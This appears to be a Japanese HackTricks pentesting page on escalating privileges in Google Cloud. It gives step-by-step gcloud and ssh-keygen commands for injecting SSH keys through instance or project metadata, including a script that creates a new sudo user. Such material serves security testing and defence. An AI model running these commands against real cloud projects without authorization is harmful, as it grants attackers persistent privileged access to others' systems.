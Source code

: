 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

### メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を得た場合に重大なセキュリティリスクを引き起こす可能性があります**。

#### **カスタムメタデータへのSSHキーの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用のPython Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。この重要なコンポーネントは、**認可されたSSH公開鍵の更新**のためにインスタンスメタデータエンドポイントを**定期的にチェック**するように設計された[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)です。

したがって、攻撃者がカスタムメタデータを変更できる場合、デーモンが新しい公開鍵を見つけるようにし、それが処理されて**ローカルシステムに統合される**可能性があります。鍵は、**既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、鍵の形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります**。攻撃者はホストを侵害できるようになります。

#### **既存の特権ユーザーにSSHキーを追加する**

1. **インスタンス上の既存のSSHキーを確認する:**

- インスタンスとそのメタデータを記述するコマンドを実行して、既存のSSHキーを見つけます。出力の関連セクションは`metadata`の下、特に`ssh-keys`キーの下にあります。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSHキーの形式に注意してください: ユーザー名は鍵の前にあり、コロンで区切られています。

2. **SSHキーのメタデータ用のテキストファイルを準備する:**
- ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、既存のキーを保持しながら新しいキーを追加するために重要です。
3. **ターゲットユーザー（この例では`alice`）のために新しいSSHキーを生成する:**

- `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットユーザー名と一致するようにします。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- 新しい公開鍵を`meta.txt`に追加し、インスタンスのメタデータに見られる形式を模倣します。

4. **インスタンスのSSHキーのメタデータを更新する:**

- `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **新しいSSHキーを使用してインスタンスにアクセスする:**

- 新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **新しい特権ユーザーを作成し、SSHキーを追加する**

興味深いユーザーが見つからない場合は、`sudo`権限を与えられる新しいユーザーを作成することが可能です:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSHキーのプロジェクトレベルでの適用 <a href="#sshing-around" id="sshing-around"></a>

**プロジェクトレベルでSSHキーを適用することにより、クラウド環境内の複数の仮想マシン（VM）へのSSHアクセスの範囲を広げることが可能です**。このアプローチにより、プロジェクト内の明示的にプロジェクト全体のSSHキーをブロックしていないインスタンスへのSSHアクセスが可能になります。以下は要約ガイドです：

1. **プロジェクトレベルでSSHキーを適用する：**

- `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からプロジェクトのメタデータにSSHキーを追加します。このアクションにより、VMが「プロジェクト全体のSSHキーをブロック」オプションを有効にしていない限り、プロジェクト内のすべてのVMでSSHキーが認識されます。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **プロジェクト全体のキーを使用してインスタンスにSSH接続する：**
- プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSH接続できます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
- インスタンスにSSH接続する直接的な方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。

## 参考文献

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
